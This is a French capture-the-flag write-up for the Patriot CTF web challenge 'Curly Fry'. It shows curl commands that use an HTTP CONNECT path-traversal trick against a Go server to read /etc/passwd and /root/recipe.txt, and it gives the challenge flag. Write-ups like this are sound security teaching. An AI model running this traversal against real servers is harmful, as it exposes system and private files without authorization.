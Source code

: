 # Patriot CTF

## Web

### Curly Fry

**Enoncé :** Qui a besoin de Flask quand vous avez Golang -- la nouvelle méta pour les applications web.

Jetez un coup d'oeil à ce site web super élégant et fonctionnel.

***

A la connexion sur cette URL, on tombe sur la page **index.hmtl** avec le code source suivant :

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

On se doutes donc qu'il faut accéder à un fichier dans le répertoire **/root**.

Il existe un exploit qui permet d'accéder à des ressources non-autorisées grâce à une requête CONNECT sur des serveurs web en Golang.

J'essaye dans un premier temps d'accéder au fichier **/etc/passwd** via curl : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd`

Via la requête, j'accède bien au fichier souhaité :

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)

Ceci dit, impossible d'exécuter une commande pour lister le contenu du répertoire /root.

Après relecture ducode source HTML, je découvre l'existence du fichier recipe.txt. 

Je relance donc ma commande curl avec le chemin complet et je récupère le contenu : `curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt`

![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

FLAG : PCTF{tru5t_m3_im_4_ch3f}

